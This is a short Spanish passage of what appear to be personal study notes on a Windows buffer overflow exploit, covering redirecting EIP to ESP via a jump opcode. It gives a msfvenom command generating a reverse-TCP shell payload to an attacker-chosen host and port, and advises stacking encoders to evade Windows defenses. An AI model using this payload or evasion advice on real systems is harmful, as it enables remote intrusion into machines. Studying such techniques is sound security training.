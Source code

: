 
------

Ahora, lo que queremos hacer es buscar un archivo de salto que nos permita apuntar el **EIP** al **ESP** a través de un opcode que funcione como guía intermediaria en las direcciones.

Este shellcode lo podemos crear desde la terminal de [[MsfVenom]] de la siguiente manera:


`msfvenom -p windows/shell_reverse_tcp LHOST=<tu_IP> LPORT=<puerto> -f c -b "\x00\x0a\x0d"`

Entre más encoders utilices, mejor será la ofuscación del código, evitando que sea interpretado por los defensores de Windows. Esto incrementa las posibilidades de éxito al ejecutar el payload.

![[Pasted image 20241031190457.png]]

De la siguiente manera podemos saber cual es el archivo ruta o de salto entre el EIP y el ESP

![[Pasted image 20241031190955.png]]


